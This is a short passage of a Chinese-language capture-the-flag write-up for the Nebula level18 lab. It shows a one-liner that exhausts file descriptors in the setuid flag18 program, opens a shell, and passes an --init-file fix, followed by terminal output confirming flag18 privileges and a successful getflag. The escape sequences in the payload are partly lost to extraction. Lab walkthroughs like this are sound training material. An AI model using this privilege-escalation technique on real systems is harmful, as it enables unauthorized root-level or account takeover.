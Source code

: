 ```
level18@nebula:/tmp$ (python -c "print 'login 123n'*1021+'closelogn'+'shelln'";cat)|/home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```

这个提示的错误其实不是来自flag18的，而是在/bin/sh不存在`-d`参数，可以添加`--init-file`参数解决。

```
level18@nebula:/tmp$ (python -c "print 'login 123n'*1021+'closelogn'+'shelln'";cat)|/home/flag18/flag18 --init-file -d /dev/tty
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 0
logged in successfully (without password file)
bash
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
```
